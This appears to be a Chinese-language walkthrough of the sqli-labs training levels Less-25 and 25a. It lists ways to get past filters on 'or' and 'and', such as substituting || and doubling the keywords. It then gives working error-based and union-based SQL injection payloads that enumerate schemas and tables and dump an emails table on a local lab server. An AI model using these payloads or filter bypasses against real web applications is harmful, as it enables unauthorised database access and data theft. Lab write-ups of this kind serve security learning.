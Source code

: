 ![image-20201111134703257](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111134703257.png)

查看代码

![image-20201111134736453](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111134736453.png)

如何绕过or和and过滤。一般性提供以下几种思路：

1. 大小写变形 Or,OR,oR
2. 编码，hex，urlencode
3. 添加注释/* or */ (无空格)
4. 利用符号 and=&& or=||
5. 双写or或and绕过

暂时只想到这些，还有的话可以补充。

本关方法（1）（2）（3）均无效，下面我们利用方法（4）和（5）进行。

报错注入payload

?id=1' || extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

**这里使用||来绕过or过滤。**

![image-20201111135300061](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111135300061.png)

?id=1' || extractvalue(1,concat(0x7e,(select group_concat(schema_name) from infoorrmation_schema.schemata),0x7e))--+

?id=1' || extractvalue(1,concat(0x7e,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'),0x7e))--+ 

?id=1' || extractvalue(1,concat(0x7e,(select group_concat(column_name) from infoorrmation_schema.columns where table_schema='security' aandnd table_name='emails'),0x7e))--+

双写绕过and 和or

id=1' || extractvalue(1,concat(0x7e,(select group_concat(id,0x3a,email_id) from emails),0x7e))--+



或者使用联合查询（双写绕过or过滤）



## 0X1ALess-25a

相比25,无回显

联合查询

![image-20201111140234456](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111140234456.png)

http://127.0.0.1/sql/Less-25a/index.php?id=-1 union select 1,(select group_concat(schema_name) from infoorrmation_schema.schemata),2

**这里将information_schema改为infoorrmation_schema来绕过or过滤。**

……
